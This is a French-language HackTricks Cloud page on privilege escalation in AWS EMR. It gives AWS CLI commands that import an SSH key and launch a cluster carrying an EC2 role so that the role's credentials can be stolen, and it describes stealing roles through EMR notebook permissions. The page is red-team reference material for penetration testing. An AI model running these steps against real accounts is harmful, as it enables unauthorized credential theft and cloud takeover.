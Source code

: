 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Plus **d'infos sur EMR** dans :

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Un attaquant avec ces permissions peut **lancer un nouveau cluster EMR en attachant des rôles EC2** et essayer de voler ses identifiants.\
Notez que pour ce faire, vous devez **connaître une clé privée ssh importée dans le compte** ou en importer une, et être capable d'**ouvrir le port 22 dans le nœud maître** (vous pourriez être en mesure de le faire avec les attributs `EmrManagedMasterSecurityGroup` et/ou `ServiceAccessSecurityGroup` à l'intérieur de `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Notez comment un **rôle EMR** est spécifié dans `--service-role` et un **rôle ec2** est spécifié dans `--ec2-attributes` à l'intérieur de `InstanceProfile`. Cependant, cette technique ne permet que de voler les identifiants du rôle EC2 (puisque vous vous connecterez via ssh) mais pas le rôle IAM EMR.

**Impact potentiel :** Privesc au rôle de service EC2 spécifié.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Avec ces autorisations, un attaquant peut accéder à la **console AWS**, créer un Notebook et y accéder pour voler le rôle IAM.

{% hint style="danger" %}
Même si vous attachez un rôle IAM à l'instance de notebook, dans mes tests, j'ai remarqué que j'étais capable de voler des identifiants gérés par AWS et non des identifiants liés au rôle IAM.
{% endhint %}

**Impact potentiel :** Privesc au rôle géré par AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Juste avec cette autorisation, un attaquant pourra accéder au **Jupyter Notebook et voler le rôle IAM** qui lui est associé.\
L'URL du notebook est `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Même si vous attachez un rôle IAM à l'instance de notebook, dans mes tests, j'ai remarqué que j'étais capable de voler des identifiants gérés par AWS et non des identifiants liés au rôle IAM.
{% endhint %}

**Impact potentiel :** Privesc au rôle géré par AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
